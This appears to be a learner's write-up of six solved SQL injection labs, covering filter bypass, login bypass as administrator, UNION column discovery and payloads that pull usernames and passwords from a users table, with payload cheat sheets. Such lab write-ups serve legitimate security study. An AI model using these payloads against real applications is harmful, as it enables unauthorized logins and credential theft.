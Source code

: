 # Lab 1 - Retrieving Hidden Data via SQL Injection

*Lab:* SQL Injection Vulnerability allows retrieving hidden data  
*Status:* Solved  
*Target:* Display unreleased products via SQL Injection

# Lab Context

The lab contains a SQL injection vulnerability in the product category filter. Query structure:

sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1


# Goal

-  Exploit SQL Injection to bypass filter and display unreleased products.

# Basic Injection Strategy

Use:
https://insecure-website.com/products?category=Gifts'--

Which turns the query into:

sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

# OR-Based Bypass

https://insecure-website.com/products?category=Gifts'+OR+1=1--

# Injection Cheat Sheet

| Type        | Payload     | Effect                      |
|-------------|-------------|-----------------------------|
| Comment     | '--       | Comments out the query      |
| Boolean OR  | ' OR 1=1--| Bypasses condition check    |


# Lab 2 - Login Bypass via SQL Injection

*Lab:* SQL Injection Vulnerability Allowing Login Bypass  
*Status:* Solved  
*Target:* Log in as administrator by bypassing authentication

# Attack Example

Payload for username:

sql
administrator'--

Backend transforms to:

sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Also possible:

- Username: administrator
- Password: ' OR 1=1 --

# Lab 3 - Determining Number of Columns via UNION

*Lab:* SQL injection UNION attack, determining the number of columns  
*Status:* Solved  
*Target:* Discover column count using UNION

# Techniques

- Try increasing NULLs:
  
  '+UNION+SELECT+NULL--  
  '+UNION+SELECT+NULL,NULL--  
  
- Use ORDER BY:
  
  ' ORDER BY 1--  
  ' ORDER BY 3--   


# Lab 4 - Finding Text-Compatible Column

*Lab:* SQL injection UNION attack to find text column  
*Status:* Solved  
*Target:* Leak usernames/passwords

# Steps

1. Determine columns:  
   
   '+UNION+SELECT+NULL,NULL-- 
   
2. Find text support:  
   
   '+UNION+SELECT+'abc',NULL--  
   '+UNION+SELECT+NULL,'abc'--    

3. Final payload:
   
   '+UNION+SELECT+NULL,username||'*'||password+FROM+users--
   

# Lab 5 - Retrieve Data From Other Tables

*Lab:* SQL injection UNION attack, retrieving data from other tables  
*Status:* Solved  
*Target:* Extract usernames/passwords from users table

# Process

1. Columns count:  
   
   ' UNION SELECT NULL,NULL-- 
   
2. Find text columns:  
   
   ' UNION SELECT 'abc','def'--  

3. Final payload:  
   
   ' UNION SELECT username, password FROM users-- 


# Lab 6 - Retrieve Multiple Values in One Column

*Lab:* SQL injection UNION attack with string concatenation  
*Status:* Solved  
*Target:* Extract usernames/passwords into a single column

# Process

1. Check text column:
   
   '+UNION+SELECT+NULL,'abc'-- 

2. Combine data:
   
   '+UNION+SELECT+NULL,username||'~'||password+FROM+users--

   
# String Concatenation Cheats

| DBMS        | Syntax                        |
|-------------|-------------------------------|
| Oracle      | 'a'||'b'                    |
| PostgreSQL  | 'a'||'b'                    |
| MySQL       | CONCAT('a','b')             |
| Microsoft   | 'a' + 'b'                   |

Each of these labs provided a strong foundation for understanding SQL injection techniques and how to exploit and mitigate such vulnerabilities in real-world applications.

Stay tuned for more daily progress as I continue exploring the world of web application security.
